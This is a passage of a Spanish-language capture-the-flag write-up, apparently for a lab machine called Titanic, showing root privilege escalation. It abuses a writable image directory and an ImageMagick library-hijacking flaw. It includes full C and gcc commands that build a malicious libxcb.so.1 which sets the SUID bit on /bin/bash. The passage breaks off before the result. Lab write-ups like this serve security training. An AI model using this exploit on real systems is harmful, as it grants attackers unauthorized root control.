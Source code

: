 Tenemos un script *identify_images.sh*, el cual lo primero que hace es abrir otro directorio *"cd /opt/app/static/assets/images/"*. Veamos qué permisos tenemos en ese directorio.

![Captura Permisos en Images](../capturas/titanic/captura_permisos_images.png)

Somos del grupo y, según indica *'drwxrwx---'*, podemos leer, ejecutar y escribir. Creamos un library hijacking. 

Del siguiente repositorio (https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) obtengo este código:

![Captura Repositorio Github](../capturas/titanic/captura_codigo_repositorio.png)

En el que vamos a cambiar la línea *system("id")*, para que la máquina ejecute lo que sea que escribimos dentro del comando. Lo cambiamos a *"chmod u+s /bin/bash"*.

Con esto haremos que:
```
developer@titanic:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```
Cambie a:
```
developer@titanic:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```
Es decir, haremos que el binario */bash* tenga el bit SUID, lo cual significa que será un archivo que nos permitirá escalar privilegios. 

Nos movemos a la carpeta /images/ y escrimos el código. 
```
developer@titanic:~$ cd /opt/app/static/assets/images/

developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod u+s /bin/bash");
    exit(0);
}
EOF
```
Veremos que eventualmente cambian los permisos de /bin/bash:
